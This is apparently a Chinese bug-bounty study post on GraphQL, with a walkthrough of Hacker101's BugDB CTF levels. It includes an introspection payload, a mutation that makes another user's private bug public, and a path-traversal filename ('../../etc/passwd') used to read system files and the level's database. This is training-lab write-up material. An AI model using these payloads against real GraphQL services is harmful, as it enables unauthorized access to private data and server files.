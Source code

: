 ```yaml
---
layout: post
title: BugBounty-GraphQL
---
```


* TOC
{:toc}

## 前置知识

官方文档

+ [https://graphql.cn/](https://graphql.cn/learn/queries/#mutations)

分析工具

+ [chrome插件版Graphiql](https://chrome.google.com/webstore/detail/graphiql-extension/jhbedfdjpmemmbghfecnaeeiokonjclb?hl=en)
+ [graphdoc生成文档](https://github.com/2fd/graphdoc)

通用自省payload，graphiql默认发送

```
{"query":"\n  query IntrospectionQuery {\n    __schema {\n      queryType { name }\n      mutationType { name }\n      subscriptionType { name }\n      types {\n        ...FullType\n      }\n      directives {\n        name\n        description\n        locations\n        args {\n          ...InputValue\n        }\n      }\n    }\n  }\n\n  fragment FullType on __Type {\n    kind\n    name\n    description\n    fields(includeDeprecated: true) {\n      name\n      description\n      args {\n        ...InputValue\n      }\n      type {\n        ...TypeRef\n      }\n      isDeprecated\n      deprecationReason\n    }\n    inputFields {\n      ...InputValue\n    }\n    interfaces {\n      ...TypeRef\n    }\n    enumValues(includeDeprecated: true) {\n      name\n      description\n      isDeprecated\n      deprecationReason\n    }\n    possibleTypes {\n      ...TypeRef\n    }\n  }\n\n  fragment InputValue on __InputValue {\n    name\n    description\n    type { ...TypeRef }\n    defaultValue\n  }\n\n  fragment TypeRef on __Type {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n              ofType {\n                kind\n                name\n                ofType {\n                  kind\n                  name\n                }\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n"}
```

## 攻击面

## CTF

### hackone101 BugDB v1

题目提供了GraphiQl的界面，通过右侧的Docs可以得到所有接口信息

![](../images/bugDB_v1_1.png)

使用Query嵌套查询查询

![](../images/bugDB_v1_2.png)

### hackone101 BugDB v2

考点是`Mutation`的使用

需要将`victim`用户的`Bugs`的`privite`属性设置为`false`

```
mutation {
  modifyBug(id: 2, private: false) {
    ok
    bug {
      id
    }
  }
}
```

### hackone101 BugDB v3

常规的，将`query`方法列出

![](../images/bugDB_v3_1.png)

观察内省，发现多了两个`Mutation`的操作

分别是上传文件和修改文件名称

上传文件

![](../images/bugDB_v3_2.png)

得到的文件名是一串随即数

```
"node": {
  "id": "QXR0YWNobWVudHM6MQ==",
  "bugId": 1,
  "filename": "a13f22a17a0b6c38ec973e42dc80b608",
  "bug": {
    "id": "QnVnczox"
  }
```

修改文件名


![](../images/bugDB_v3_3.png)

修改文件名后得到的文件名成为可控值

```
"node": {
  "id": "QXR0YWNobWVudHM6MQ==",
  "bugId": 1,
  "filename": "test1.txt",
  "bug": {
    "id": "QnVnczox"
  }
```

到这里我就卡住了，然后参考了别人的wp

首先hackerone给出的提示为

+ What new functionality was added?
+ Filenames are always interesting
+ How do you access attachments? Hint: not via GraphQL

通过路由*/attachments/1*可以访问到之前上传的文件

![](../images/bugDB_v3_4.png)

事实上这有些类似我们的软连接的处理，在文件名中存在路径穿越的情况

```
mutation modifyAttachment{
  modifyAttachment(id: 1, filename: "../../../../../../etc/passwd"){
    ok
  }
}
```

当看了`main.py`和`model.py`的源码后，发现有这么一个东西

```python
from sqlalchemy import create_engine from sqlalchemy.ext.declarative import declarative_base from sqlalchemy.orm import relationship, scoped_session, sessionmaker from sqlalchemy import Column, DateTime, ForeignKey, Boolean, Integer, Text, func, String engine = create_engine('sqlite:///level18.db', convert_unicode=True) db_session = scoped_session(sessionmaker(autocommit=False, autoflush=False, bind=engine)) Base = declarative_base() Base.query = db_session.query_property() class User(Base): __tablename__ = 'users' id = Column(Integer, primary_key=True) username = Column(String(255)) password = Column(String(255)) bugs = relationship('Bug', primaryjoin='Bug.reporter_id==User.id') class Bug(Base): __tablename__ = 'bugs' id = Column(Integer, primary_key=True) reporter_id = Column(Integer, ForeignKey('users.id')) reporter = relationship(User, primaryjoin=reporter_id == User.id) text = Column(Text(65536)) private = Column(Boolean()) attachments = relationship('Attachment', primaryjoin='Attachment.bug_id==Bug.id') class Attachment(Base): __tablename__ = 'attachments' id = Column(Integer, primary_key=True) bug_id = Column(Integer, ForeignKey('bugs.id')) bug = relationship(Bug, primaryjoin=bug_id == Bug.id) filename = Column(String(255))
```

其中有个*sqlite:///level18.db*，用同样的方法，可以将flag读出

![](../images/bugDB_v3_5.png)

## 漏洞报告

## template

## 参考资料

+ [攻击GraphQL](https://xzfile.aliyuncs.com/upload/zcon/2018/7_%E6%94%BB%E5%87%BBGraphQL_phithon.pdf)
